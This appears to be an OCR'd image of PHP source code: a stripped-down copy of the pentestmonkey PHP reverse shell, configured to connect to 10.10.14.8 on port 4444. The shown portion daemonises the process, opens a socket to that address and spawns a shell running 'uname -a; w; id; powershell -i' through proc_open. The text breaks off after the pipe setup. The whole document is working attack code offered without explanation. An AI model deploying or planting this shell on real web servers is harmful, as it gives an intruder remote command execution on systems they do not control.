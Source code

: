 ```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.8';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; powershell -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
```